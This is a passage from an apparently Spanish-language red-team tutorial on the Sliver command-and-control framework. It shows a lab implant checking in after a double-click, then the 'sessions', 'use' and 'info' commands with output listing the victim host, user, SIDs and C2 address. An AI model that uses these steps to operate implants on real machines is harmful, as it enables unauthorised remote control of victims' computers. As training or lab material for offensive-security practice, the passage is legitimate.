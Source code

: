 Finalmente, cuando se de doble click en el implante, se debe ver una interacción en C2 como la siguiente:

{% code overflow="wrap" %}
```bash
[*] Session 48c846a5 GROSS_DRIVER - 172.19.0.131:49793 (DESKTOP-V9TDLK0) - windows/amd64 - Mon, 27 Nov 2023 10:11:00 CST

sliver > 
```
{% endcode %}

También se puede ejecutar el comando `sessions` para listar todas las sesiones remotas obtenidas:

```bash
sliver > sessions 

 ID         Transport   Remote Address       Hostname          Username   Operating System   Health  
========== =========== ==================== ================= ========== ================== =========
 48c846a5   mtls        172.19.0.131:49793   DESKTOP-V9TDLK0   pruiz      windows/amd64      [ALIVE] 
```

### Uso de sesiones

Para ocupar una sesión solo ocupe el comando `use`. Sólo tienes que escribirlo, pulsar enter, y aparecerá un prompt interactivo que permite seleccionar una sesión. Vuelva a pulsar Intro y el indicador cambiará al nombre del implante, que en mi caso era GROSS\_DRIVER. La sesión está ahora activa y lista para aceptar tus comandos. Con el comando `info`, puede obtener más información sobre el implante:

{% code overflow="wrap" %}
```bash
sliver > use 

? Select a session or beacon: SESSION  48c846a5  GROSS_DRIVER  172.19.0.131:49793  DESKTOP-V9TDLK0  DESKTOP-V9TDLK0\pruiz  windows/amd64
[*] Active session GROSS_DRIVER (48c846a5-3980-4adf-b701-15da5e28f86d)

sliver (GROSS_DRIVER) > info

        Session ID: 48c846a5-3980-4adf-b701-15da5e28f86d
              Name: GROSS_DRIVER
          Hostname: DESKTOP-V9TDLK0
              UUID: 01404d56-834c-f66f-c549-e4f5869a9bd2
          Username: DESKTOP-V9TDLK0\pruiz
               UID: S-1-5-21-2629043924-2612844846-3487003113-1000
               GID: S-1-5-21-2629043924-2612844846-3487003113-513
               PID: 648
                OS: windows
           Version: 10 build 19045 x86_64
            Locale: en-US
              Arch: amd64
         Active C2: mtls://172.19.0.128:8888
    Remote Address: 172.19.0.131:49793
         Proxy URL: 
Reconnect Interval: 1m0s
     First Contact: Mon Nov 27 10:11:00 CST 2023 (5m13s ago)
      Last Checkin: Mon Nov 27 10:15:01 CST 2023 (1m12s ago)

```
{% endcode %}
